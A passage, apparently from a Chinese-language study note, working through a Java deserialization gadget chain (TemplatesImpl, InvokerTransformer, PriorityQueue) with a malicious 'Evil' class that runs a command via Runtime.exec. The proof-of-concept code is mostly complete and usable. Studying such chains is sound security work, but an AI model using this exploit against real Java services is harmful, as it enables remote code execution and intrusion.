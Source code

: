             // 2. 构造 sink
            TemplatesImpl templates = new TemplatesImpl();
            // 要求 1 - 注入恶意字节码
            Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
            bytecodesField.setAccessible(true);
            bytecodesField.set(templates, new byte[][]{bytes});
            // 要求 2 - 保证 _name 不为 null
            Field nameField = templates.getClass().getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "EndlessShw");
    
            // 3. 构造 chain
            // newTransform() 无参数，后面两个就直接 new 出来了
            InvokerTransformer<Object, Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});
            TransformingComparator transformingComparator = new TransformingComparator<>(invokerTransformer);
    
            // 4. 构造 kick-off
            PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
            priorityQueue.add("1");
            priorityQueue.add("2");
            // su18 师傅这里该用获取 queue 后修改第一个元素的方法，我这里就直接新建一个覆盖
            Field queueField = priorityQueue.getClass().getDeclaredField("queue");
            queueField.setAccessible(true);
            // 如果像 su18 师傅那样只修改一个的话，那么第二个元素因为不是 TransformerImpl，从而无法调用 `newTransformer()` 而报错
            // 尝试全改成了这个类，结果是命令会调用两次，虽然解决了这个报错，但是最终会引起 TransformerImpl cannot be cast to java.lang.Comparable
            // 只能说，逃不掉的，报错是一定的。
            queueField.set(priorityQueue, new TemplatesImpl[]{templates, templates});
    
            // 5. 将 kick-off 和 chain 相连
            Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
            comparatorField.setAccessible(true);
            comparatorField.set(priorityQueue, transformingComparator);
    
            String serialize = serialize(priorityQueue);
            unSerialize(serialize);
        }
    ```

2. 恶意类如下：
    ```java
    package com.endlessshw.serialization.util;
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;
    import com.sun.org.apache.xalan.internal.xsltc.TransletException;
    import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
    import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
    import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
    import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
    
    import java.io.IOException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description:
     * 继承 AbstractTranslet 是为了 TemplatesImpl._transletIndex，即下标位精准定位
     * 修改 namesArray 的目的就是为了防止 {@link TemplatesImpl#getTransletInstance()} 中的 `translet.postInitialization();` 抛出空指针错误
     * @date 2024/9/27 16:37
     */
    public class Evil extends AbstractTranslet {
        public Evil() throws IOException {
            super();
            Runtime.getRuntime().exec("calc");
            namesArray = new String[2];
            namesArray[0] = "newTransformer";